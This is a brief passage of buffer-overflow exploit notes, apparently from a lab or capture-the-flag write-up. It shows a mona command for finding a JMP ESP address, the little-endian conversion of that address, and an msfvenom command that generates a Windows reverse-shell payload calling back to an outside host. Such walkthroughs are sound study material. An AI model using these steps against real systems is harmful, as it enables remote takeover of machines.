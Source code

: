 We have the EIP, It needs an address that will jump to a new stack frame.

```
!mona jmp -r esp -cpb "<barchars>"
```

![[Pasted image 20210912000429.png]]

Convert the address - `625011AF` -> `\xAF\x11\x50\x62`

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.6.19.12 LPORT=9009 EXITFUNC=thread -b "\x00" -f python -v "shellcode"
```